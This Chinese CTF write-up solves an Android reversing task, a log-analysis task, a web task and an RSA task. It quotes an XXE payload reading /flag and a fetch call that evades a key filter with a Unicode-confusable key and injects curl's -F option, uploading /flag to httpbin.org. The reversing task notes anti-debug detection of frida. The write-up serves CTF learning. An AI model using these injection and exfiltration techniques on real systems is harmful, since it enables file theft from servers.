

## 烽起初关关卡

### 1. SecureVault

- 解包 `app-release.apk`，发现 `classes.dex` 字符串包含以下内容：

```java
com/securevault/locker/MainActivity
com/securevault/locker/NativeBridge
nativeVerify
flag{
```

猜测 `Java` 为预处理，`JNI` 层才是核心校验，`flag` 再返回 `Java` 层还原。

- 分析 `NativeBridge.b(String)` 逻辑：
  - 输入必须是 32 位 `hex`（ `MainActivity.validateInput` ）。
  - `hex` --> 16 字节。
  - 做 **16-bit DJB2** 校验：
    - 初值：`5381`
    - `h = (h * 33 + byte) & 0xffff`
    - 必须满足： `h == 24627`

- **构造中间值**
  - `perm = [5, 12, 3, 14, 9, 0, 7, 10, 15, 4, 1, 8, 13,6, 11, 2]`
  - `key = "JavaKey!SecureV2"`（16 字节）
  - `mid[i] = input_bytes[perm[i]] ^ key[i]`
  - 将 `mid` 转换为 32 位 `hex` 字符串，传给 `nativeVerify(mid_hex)`。

- `nativeVerify` 返回 `hex` 字符串，Java 层再做：
- `ret_bytes = hex_to_bytes(ret)`
- `flag_bytes[i] = ret_bytes[i] ^ ((i * 27 + 126) & 0xff)`
- `new String(flag_bytes)` 显示在 UI。

- 分析`native（libnative_crypto.so）`
  - 利用`x86_64 so` 逆向 `Java_com_securevault_locker_NativeBridge_nativeVerify`
- 导出函数要求32hex

-反调试

```bash
read /proc/self/status #解析  TracerPid，若非  0  置位调试标志。
Read /proc/self/maps，
search "frida", "gadget", "linjector" #命中则置位注入标志
```

- 内部有 3 类变换函数：
  - 256 字节表的替换
  - `64-bit bit-permutation `
  - `TEA    64-bit` 轮函数
- 最后把两段 8 字节结果与常量比对；通过后返回给Java 解码的 hex。
- 从 so 中提取并还原：
  - `S-box（.data  初值再异或  0x5a） `
  - `bit permutation` 表（.rodata 的 64 字节）
  - TEA 风格轮函数常量（由 init 中 LCG 生成）
- 重写 forward 流程。
- 对 TEA 风格块逆向时使用 z3 求 `preimage`。
- 反推出 `nativeVerify` 真正期望的 16 字节输入：
  `e7ea34917ca596eb5ebb9c66dfdba8dc`

-代回 Java 逆变换，得到主密钥： `c0ffee42deadbeef1337cafe8badf00d`
再按 Java 的最终异或流还原字符串，得到 flag。
`Master Key: c0ffee42deadbeef1337cafe8badf00d`
`Flag: flag{Ant1_Dbg_CBC_Fl4tten3d_M4st3r!} `

### 2. 日志分析

- `10.55.22.19` 在 `line 12001 -- 12065 ` 用 `dirb/Nikto/sqlmap/Wget` 爆破目录。
- 利用流量：`192.168.10.84` 在 `12066` 到 `12094` 用 `python-requests/2.25.1`
  发自动化请求。
- `Line 12067` 的 `user_xml_format` 参数里有：

```html
<!DOCTYPE ... <!ENTITY xxe SYSTEM "file:///flag">...&xxe;
```

- XXE 任意文件读取，攻击者在读服务器本地文件。
- 后续

```bash
  file:///Zmxh.png、file:///Z3s4.png.jpg、img=Yi0x...
```

- 伪装 `base64` 片段。 `12068...12093` 行，
- 拼出来 `flag{8cb249d0-825b-7419-845b-1f29e00d53f4}`

### 3. CloudPulse

- 分析源码 `CloudPulse` 页面只给了`Target URL`，前端调用
- `POST /api/probe`，
- 在 [main.py]里：
  - `/api/probe` 会先做 `_sanitize_payload()`，把键名 `lower`。 `target`
    必须`http（s）://`开头，
  - 强写入ops=httpcheck 后转后端。
- 在 [server.go]里： `ops=fetch ` 时进入`performFetch `
- `performFetch` 会把`target` 做`strings.Fields(target)`，然后直接拼进 `curl`
- 只拦了`-o/-O/-T/--output/--upload-file/file://`，没拦 `-F**`。
- 利用 Unicode 混淆键名
- 用`console` 交

```javascript
fetch("/api/probe", {     method: "POST",     headers: { "Content-Type": "application/json" },     body: '{"ops":"httpcheck","op\\u017f":"fetch","target":"https://httpbin.org/post -F
f=@/flag"}', })     .then((r) => r.json())     .then((d) => {         const a = JSON.parse(d.data);         const b = JSON.parse(a.result);         console.log("FLAG =", b.files.f);     });
```

- 传flag  
  

## 密境寻踪关卡

### 1. 近在咫尺

```text
p = getPrime(256)，q = next_prime(p + 0x2B67)
0x2B67 = 11111
```

- `p` 是奇数，所以 `p + 11111` 是偶数。
- `next_prime` 会先 `+1` 变成奇数，再找下一个素数，所以 `q - p` 大约是 `11112`
  再加一个很小的素数间隔。
- 也就是 `p` 和 `q` 非常接近,用`Fermat` 秒.

```python
from math import isqrt  n =
74541117131399278762322597137069363035737141167944428173107650799830112
93981256300530816851723410800872539085466352319868113846516768058243142
635125770529 e = 65537 c =
11918748160853818626920676658309029586972130150253150993745732031047509
73227774012845742587255524802454807814934088221526718763801469140835525
899521771937  a = isqrt(n) a += (a * a < n)  while (b := isqrt(a*a - n))**2 != a*a - n:       a += 1  p, q = a - b, a + b d = pow(e, -1, (p - 1) * (q - 1)) m = pow(c, d, n)  print("p =", p)
print("q =", q) print("q-p =", q - p) print("flag =", m.to_bytes((m.bit_length() + 7) // 8, "big").decode())
```

- 跑一遍就行了

```bash
= 86337197737359578239105400264242642563877970582360696680300267452104396317817
86337197737359578239105400264242642563877970582360696680300267452104396328937
9-p = 11120
flag = flag{fermat_can_break_close_primes}
[Done]
exited with code=0 in 0.083 seconds
```
